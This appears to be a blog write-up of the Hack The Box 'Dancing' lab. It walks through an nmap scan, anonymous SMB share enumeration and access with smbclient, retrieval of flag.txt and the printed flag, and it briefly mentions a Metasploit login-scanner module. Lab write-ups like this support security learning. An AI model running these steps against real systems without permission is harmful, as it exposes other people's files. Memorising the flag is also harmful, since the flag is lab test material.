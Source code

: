 ```yaml
---
layout: post
title: "Dancing – Hack The Box"
categories: htb
date: 2025-07-19
---
```


## 🧠 Summary
The Dancing machine from HTB Starting Point demonstrates enumeration and exploitation of SMB shares using anonymous access. We'll use **Nmap** for scanning and **smbclient** for accessing shares without credentials.

---

## 🔍 Tools Used
- **Nmap** – Network scanning and service enumeration
- **smbclient** – SMB share access and file retrieval

---

## 🎯 Target Information
- **IP Address:** `10.129.207.91`
- **OS:** Windows
- **Difficulty:** Very Easy
- **Tags:** SMB, Enumeration, Anonymous Access

---

## ✅ Steps to Exploit

### 1. Reconnaissance with Nmap
First, scan the target for open ports and services:
```bash
nmap -sC -sV 10.129.207.91
```
Result:

![Nmap Scan Result](/assets/img/htb/dancing/nmapdancing.jpg)

Key Findings:
- Port 135 → Microsoft RPC
- Port 139 → NetBIOS
- Port 445 → SMB (microsoft-ds)

### 2. Enumerate SMB Shares
List available shares anonymously:
```bash
smbclient -L \\\\10.129.207.91\\ -N
```
**-L** : To list available shares

**-N** : No password prompt (useful for anonymous/guest access)

Result: Found a share named WorkShares

![List of SMB Shares](/assets/img/htb/dancing/smbshares.jpg)

### 3. Access the WorkShares Share
Connect without a password:
```bash
smbclient \\\\10.129.207.91\\WorkShares -N
```
List the folders:
```bash
ls
```
We will see:
```bash
Amy.J
James.P
```

### 4. Browse Directories and Find the Flag
Navigate into Amy.J:
```bash
cd Amy.J
ls
```
File found: worknotes.txt (not needed for flag, but useful for context)

Go back and enter James.P:
```bash
cd ..
cd James.P
ls
```
Here we find flag.txt:
![Get Flag File](/assets/img/htb/dancing/getflag.jpg)


### 5. Download and Read the Flag
Download the flag file:
```bash
get flag.txt
```
Read it locally:
```bash
cat flag.txt
```
Flag:
```bash
5f61c10dffbc77a704d76016a22f1664
```
![Read Flag File](/assets/img/htb/dancing/readflag.jpg)

### Alternative Method (Optional)
You could also enumerate SMB shares using enum4linux or exploit with Metasploit:
```bash
use auxiliary/scanner/smb/smb_login
```

### Key Takeaways
- SMB shares are often misconfigured for anonymous access.
- Always start with Nmap, then enumerate with smbclient.
- Use Metasploit or enum4linux for automation in real-world scenarios.
